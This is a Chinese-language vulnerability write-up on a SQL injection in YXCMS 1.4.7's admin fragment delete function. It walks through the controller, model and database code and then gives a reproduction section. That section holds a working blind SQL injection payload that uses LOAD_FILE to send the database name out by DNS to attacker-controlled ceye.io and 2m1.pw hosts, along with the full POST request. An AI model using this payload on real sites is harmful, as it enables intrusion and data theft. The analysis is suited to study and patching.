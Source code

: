 YXCMS 1.4.7SQL注入
==================

一、漏洞简介
------------

二、漏洞影响
------------

1.4.7

三、复现过程
------------

### 漏洞分析

查看漏洞文件protected/apps/admin/controller/fragmentController.php的第63行

    public function del()
    {
        if(!$this->isPost()){
            $id=intval($_GET['id']);
            if(empty($id)) $this->error('您没有选择~');
            if(model('fragment')->delete("id='$id'"))
            echo 1;
            else echo '删除失败~';
        }else{
            if(empty($_POST['delid'])) $this->error('您没有选择~');
            $delid=implode(',',$_POST['delid']);
            if(model('fragment')->delete('id in ('.$delid.')'))
            $this->success('删除成功',url('fragment/index'));
        }
    }

我们跟if(model(\'fragment\')-\>delete(\"id=\'\$id\'\")),它会先到protected/core.php文件里面的model

    function model($model){
        static $objArray = array();
        $className = $model . 'Model';
        if( !is_object($objArray[$className]) ){
            if( !class_exists($className) ) {
                throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
            }
            $objArray[$className] = new $className();
        }
        return $objArray[$className];
    }

然后到protected/apps/admin/model/fragmentModel.php

    <?php
    class fragmentModel extends baseModel{
        protected $table = 'fragment';
    }

继续protected/base/model/baseModel.php

    <?php
    class baseModel extends model{
         protected $prefix='';
         public function __construct( $database= 'DB',$force = false ){
            parent::__construct();
            $this->prefix=config('DB_PREFIX');
        }
    }

再来到最底层的数据库操作类protected/base/model/model.php的第45行

    public function delete($condition){
    return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
        }

这个delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象cpModel

    static public function connect($config, $force=false){
            static $model = NULL;
            if( $force==true || empty($model) ){
                $model = new cpModel($config);
            }
            return $model;
        }

漏洞文件在protected/include/core/cpModel.class.php,

    public function delete() {
            $table = $this->options['table'];   //当前表
            $where = $this->_parseCondition();  //条件
            if ( empty($where) ) return false; //删除条件为空时，则返回false，避免数据不小心被全部删除

            $this->sql = "DELETE FROM $table $where";
            $query = $this->db->execute($this->sql);
            return $this->db->affectedRows();
        }

这里用到了一个方法\_parseCondition()

    private function _parseCondition() {
            $condition = $this->db->parseCondition($this->options);
            $this->options['where'] = '';
            $this->options['group'] = '';
            $this->options['having'] = '';
            $this->options['order'] = '';
            $this->options['limit'] = '';
            $this->options['field'] = '*';      
            return $condition;      
        }
    }

这个函数是在protected/include/core/db/cpMysql.class.php的128行

    public function parseCondition($options) {
            $condition = "";
            if(!empty($options['where'])) {
                $condition = " WHERE ";
                if(is_string($options['where'])) {
                    $condition .= $options['where'];
                } else if(is_array($options['where'])) {
                        foreach($options['where'] as $key => $value) {
                             $condition .= " `$key` = " . $this->escape($value) . " AND ";
                        }
                        $condition = substr($condition, 0,-4);  
                } else {
                    $condition = "";
                }
            }

            if( !empty($options['group']) && is_string($options['group']) ) {
                $condition .= " GROUP BY " . $options['group'];
            }
            if( !empty($options['having']) && is_string($options['having']) ) {
                $condition .= " HAVING " .  $options['having'];
            }
            if( !empty($options['order']) && is_string($options['order']) ) {
                $condition .= " ORDER BY " .  $options['order'];
            }
            if( !empty($options['limit']) && (is_string($options['limit']) || is_numeric($options['limit'])) ) {
                $condition .= " LIMIT " .  $options['limit'];
            }
            if( empty($condition) ) return "";
            return $condition;
        }

里面有一个行数来过滤escape,我们找到74行的这个函数定义

    public function escape($value) {
            if( isset($this->_readLink) ) {
                $link = $this->_readLink;
            } elseif( isset($this->_writeLink) ) {
                $link = $this->_writeLink;
            } else {
                $link = $this->_getReadLink();
            }

            if( is_array($value) ) { 
               return array_map(array($this, 'escape'), $value);
            } else {
               if( get_magic_quotes_gpc() ) {
                   $value = stripslashes($value);
               } 
                return  "'" . mysql_real_escape_string($value, $link) . "'";
            }
        }

不过这个函数有一句is\_array如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何sql的过滤就造成了注入漏洞。

### 复现

这个盲注可以用[http://ceye.io和python脚本跑](http://ceye.io和python脚本跑)

    http://0-sec.org/index.php?r=admin/fragment/index

payload:

    1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 

    - 点击删除

post包

    POST /index.php?r=admin/fragment/del HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 188
    Referer: [url]http://127.0.0.1/index.php?r=admin/fragment/index[/url]
    Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2; 
    Connection: close
    Upgrade-Insecure-Requests: 1

    delid%5B%5D=select LOAD_FILE((CONCAT('\\\\',(SELECT DATABASE()),'.8571e594.2m1.pw\\abc')))&__hash__=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8

![](./.resource/YXCMS1.4.7SQL注入/media/rId27.png)

然后用burp截获数据，修改内容加上我们的payload，用原文的payload后面+会报错

![](./.resource/YXCMS1.4.7SQL注入/media/rId28.png)

然后进入<http://ceye.io/records/dns> 查看我们的数据

![](./.resource/YXCMS1.4.7SQL注入/media/rId30.shtml)
